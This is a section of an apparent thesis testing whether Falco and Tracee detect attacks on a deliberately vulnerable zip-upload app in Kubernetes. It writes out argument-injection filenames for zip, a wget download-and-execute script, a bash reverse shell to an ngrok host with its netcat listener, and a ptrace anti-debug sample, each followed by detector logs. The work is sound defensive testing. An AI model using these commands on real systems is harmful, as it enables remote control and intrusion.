\section{Attacks in the Scenario}
\label{sec:attacks}

As introduced in the previous chapter, the web application allows users to simulate realistic attack scenarios because it is possible to upload and unzip folders containing scripts that are neither sanitized nor validated.  In this section, we use it to launch attacks such as command injection, reverse shells and the use of \texttt{ptrace}. For each tool, we report only the most relevant portion of the logs that are obtained using the following instructions:

\texttt{bash falco-conf/falco-logs.sh}

\texttt{bash tracee-conf/tracee-logs.sh}


\subsection{Attack Implementation}
The attack payloads are packaged in zip folders that contain files such as:
\begin{verbatim}
-T
-TT
bash evil
evil
\end{verbatim}
These filenames were intentionally chosen. The files named \texttt{-T} and \texttt{-TT} correspond to command-line options used by the \texttt{zip} utility: the first one allows testing the archive for integrity while the second one specifies a custom test command to run after the creation of the archive. The name \texttt{bash evil} is intentionally crafted to mimic a shell command rather than a typical filename. This command would instruct the system to use the Bash shell to execute a file named evil.
The file named \texttt{evil} is an executable file and it contains a malicious Bash script designed to execute the attacks.


\subsection{Dropped Executable}
The dropped executable attack involves that involves executing arbitrary commands on the host operating system through a vulnerable application.
The following is the content of the \texttt{evil} script:
\begin{verbatim}
#!/bin/bash
apt-get install wget
wget https://busybox.net/downloads/binaries/1.21.1/busybox-i686
chmod +x busybox-i686
./busybox-i686 echo "BOOM — upper layer binary executed"
\end{verbatim}
Once the folder is uploaded and extracted, its structure allows for the execution of the \texttt{evil} script. The \texttt{wget} command is used to download the external binary.


\subsubsection{Detection Results}
Falco successfully detected the malicious behavior, generating the following alert:

\begin{verbatim}
Priority:    Critical
Rule:        Drop and execute new binary in container
Container:   k8s_zipapp_zipapp-6848db7cb4-6lkvt
Image:       zipapp:latest
Process:     busybox-i686
Command:     busybox-i686 echo "BOOM — upper layer binary executed"
Executed by: bash (parent), sh (grandparent)
Executed Path: /tmp/225648cd7e2493d7adc334e5cc2f27084124d8c6/busybox-i686
Flags:       EXE_WRITABLE, EXE_UPPER_LAYER
User:        root (UID 0)
Working Dir: /tmp/225648cd7e2493d7adc334e5cc2f27084124d8c6/
Source:      syscall
\end{verbatim}
The detection was triggered by the rule \textbf{Drop and execute new binary in container}, indicating that an attacker runs a custom executable inside the container. The event was classified as \texttt{Critical}, and the log specifies that the binary was executed by \texttt{bash} and \texttt{sh}.\\
Tracee also detected the attack, producing the following log:
\begin{verbatim}
Host:           zipapp-5879f489
Process:
  Name:         wget
  User:         root (UID 0)
  Syscall:      write
  Return Value: 139

Event:          dropped_executable
Trigger:        magic_write
File Written:   /tmp/568e2245203779c6ed687e3238bd3d8ad8f7293a/busybox-i686
File Type:      Executable binary (ELF)

Detection Policy: default-policy
MITRE ATT&CK:
  - Signature Name: New executable dropped
  - Severity:    Medium (2/5)
\end{verbatim}
Tracee identified a \texttt{dropped\_executable} event triggered by the \texttt{magic\_write} rule. It observed a \texttt{wget} process that wrote an executable binary. 
Both tools provide valuable information regarding the triggered event. 


\subsection{Reverse shell}

A reverse shell is a technique that allows an attacker to access a remote computer by initiating a shell session from the target system, bypassing firewall restrictions.
The reverse shell attack was executed using the same procedure described in the previous section for command injection with the only difference being the content of the \texttt{evil} script, which was modified to include the necessary commands for simulating a reverse shell.
\begin{verbatim}
#!/bin/bash
bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/14980 0>&1
\end{verbatim}
Unlike previous scenarios, this attack requires a minimal setup on the attacker's side to receive the incoming connection. Specifically, the attacker must first expose a TCP port using Ngrok:

\texttt{ngrok tcp 4444}

\noindent Then, a Netcat listener must be started on the same port in a separate terminal window:

\texttt{nc -nlv 4444}


\subsubsection{Detection Results}
Both Falco and Tracee detected the malicious behavior, producing the following alerts.
\begin{verbatim}
Priority:       Notice
Rule:           Redirect STDOUT/STDIN to Network Connection in Container
Source:         syscall
Container:      k8s_zipapp_zipapp-5485c4dc48-cv67x
Image:          zipapp:latest

Process:        bash         
Command Line:   bash evil /tmp/2d59ed5f6d796e23f73d443b0623144aa33b9174/zi0OIqMT
Executed Path:  /bin/bash
User:           root (UID 0)
Parent:         bash
Event Type:     dup2 (file descriptor redirection)

Network Connection:
  Source IP:    10.244.1.93
  Destination IP: 18.158.58.205
  Protocol:     TCP (IPv4)
  Source Port:  52966
  Destination Port: 19023
\end{verbatim}
\textbf{Falco} generated a \texttt{Notice}-level alert through the rule \texttt{Redirect STDOUT/STDIN to Network Connection in Container}. It detected a \texttt{bash} process running inside a container. The log also provided network information, including source and destination IP addresses and ports.\\
Tracee detected an event called \texttt{stdio\_over\_socket},triggered by the \texttt{socket\_dup} rule:
\begin{verbatim}
Host:           zipapp-5485c4dc
Process:
  Name:         bash
  User:         root (UID 0)
  Syscall:      dup
  Return Value: 0

Event:          stdio_over_socket
Trigger:        socket_dup
  → oldfd:      2 (stderr)
  → newfd:      0 (stdin)
  → remote_addr: 3.67.161.133:19023

Socket Details:
  Remote IP:    3.67.161.133
  Remote Port:  19023
  File Descriptor: 0

MITRE ATT&CK:
  - Signature Name: Process standard input/output over socket detected
  - Severity:    High (3/5)
\end{verbatim}
Tracee identified the redirection of standard I/O over a network socket and reported a remote connection to an IP address on a specific port. This malicious behavior was classified as high severity.


\subsection{\texttt{ptrace} system call}
The \texttt{ptrace} system call is commonly used for debugging or, in this case, as an anti-debugging technique which is used to detect and block debugging and analysis tools. A process can call \texttt{ptrace} in order to prevent other debuggers from attaching to it later. The following is the content of the \texttt{evil} script used in this scenario:
\begin{verbatim}
#!/bin/bash
./ptrace
\end{verbatim}
In this case we added a little executable in our zip package that is called \texttt{ptrace} and emulates a possible malicious script using this technique. It is executed from the \texttt{evil} script.


\subsubsection{Detection Results}
Both \textbf{Falco} and \textbf{Tracee} successfully identified this behavior, though with different levels of detail.
Falco generated the following alert:
\begin{verbatim}

Priority:       Notice
Rule:           PTRACE anti-debug attempt
Source:         syscall

Container:
  Name:         k8s_zipapp_zipapp-5485c4dc48-cv67x
  Image:        zipapp:latest

Process:
  Name:         ptrace
  Command Line: ptrace
  Executed Path:/tmp/2d59ed5f6d796e23f73d443b0623144aa33b9174/ptrace
  Parent:       bash
  Parent Command Line: bash evil /tmp/2d59ed5f6d796e23f73d443b0623144aa33b9174/zi0r7Tx0
  User:         root (UID 0)
  Terminal:     0

Event Type:     ptrace
\end{verbatim}
Falco triggered a \texttt{Notice}-level alert using the rule \texttt{PTRACE anti-debug attempt}. Falco's log also includes command-line context that helps reconstruct the attack chain. \\
Tracee generated the following log:
\begin{verbatim}
Host:           zipapp-5879f489
Container ID:   3386deda87643e6b27858025736011899bb1420b420b93387cd808042c16e884

Process:
  Name:         ptrace
  User:         root (UID 0)
  Syscall:      ptrace (PTRACE_TRACEME)
  Return Value: 0

Event:          anti_debugging
Triggered By:
  ptrace(request=0 [PTRACE_TRACEME], pid=0, addr=0, data=0)

Detection Policy: default-policy
MITRE ATT&CK:
  - Signature Name: Anti-Debugging detected
  - Severity:    Low (1/5)
\end{verbatim}
Tracee classified the event as an \texttt{anti\_debugging} attempt, identifying the use of the \texttt{ptrace} syscall with the \texttt{PTRACE\_TRACEME} request.


\subsection{Timeout error}
Another important observation is that during the simulation of the command injection and reverse shell attacks, a timeout error appeared, as shown in the figure below, indicating that malicious processes were running in the background. 
In contrast, the attack involving the use of \texttt{ptrace} did not produce a timeout error. The \texttt{ptrace} syscall was executed quickly and completed without leaving a blocking process. 

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/timeout.png}
    \caption{Timeout error}
    \label{fig:timeout}
\end{figure}
\subsection{Handler Detection Logs}
To facilitate detection of suspicious activities, a labeling mechanism was implemented in the handler component, which tags the deployment involved in the attack scenario when an alert is triggered.

\noindent Below are examples of logs recorded by the handler:

\noindent \textbf{Falco Handler Output:}
\begin{verbatim}
deployment.apps/zipapp labeled
[2025-05-28 08:43:44,445] INFO in handler: [+] Labeled deployment zipapp in default
\end{verbatim}

\noindent \textbf{Tracee Handler Output:}
\begin{verbatim}
deployment.apps/zipapp labeled
[2025-05-28 08:53:28,742] INFO in handler: [+] Labeled deployment zipapp in default
\end{verbatim}

The logs indicate that both Tracee and Falco detected malicious behavior inside the \texttt{zipapp} deployment and responded by labeling the associated Kubernetes resources. This mechanism can later be used to trigger automated responses, such as isolating the pod or notifying a security dashboard.

